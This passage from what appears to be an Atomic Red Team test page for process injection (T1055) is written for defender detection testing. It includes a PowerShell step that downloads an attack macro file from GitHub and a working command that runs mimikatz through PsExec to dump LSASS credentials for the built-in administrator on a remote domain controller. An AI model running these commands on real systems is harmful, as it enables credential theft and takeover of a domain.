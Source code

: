 ##### Check Prereq Commands:

```powershell
if (Test-Path "#{txt_path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{txt_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055/src/x64/T1055-macrocode.txt" -OutFile "#{txt_path}" -UseBasicParsing
```

<br/>
<br/>

## Atomic Test #2 - Remote Process Injection in LSASS via mimikatz

Use mimikatz to remotely (via psexec) dump LSASS process content for RID 500 via code injection (new thread).
Especially useful against domain controllers in Active Directory environments.
It must be executed in the context of a user who is privileged on remote `machine`.

The effect of `/inject` is explained in <https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html>

**Supported Platforms:** Windows

**auto_generated_guid:** 3203ad24-168e-4bec-be36-f79b13ef8a83

#### Inputs:

| Name          | Description                    | Type   | Default Value                                                  |
| ------------- | ------------------------------ | ------ | -------------------------------------------------------------- |
| machine       | machine to target (via psexec) | string | DC1                                                            |
| mimikatz_path | Mimikatz windows executable    | path   | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe                    |
| psexec_path   | Path to PsExec                 | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;PsExec.exe |

#### Attack Commands: Run with `command_prompt`!

```cmd
"#{psexec_path}" /accepteula \\#{machine} -c #{mimikatz_path} "lsadump::lsa /inject /id:500" "exit"
```

#### Dependencies: Run with `powershell`!

##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})

##### Check Prereq Commands:

```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
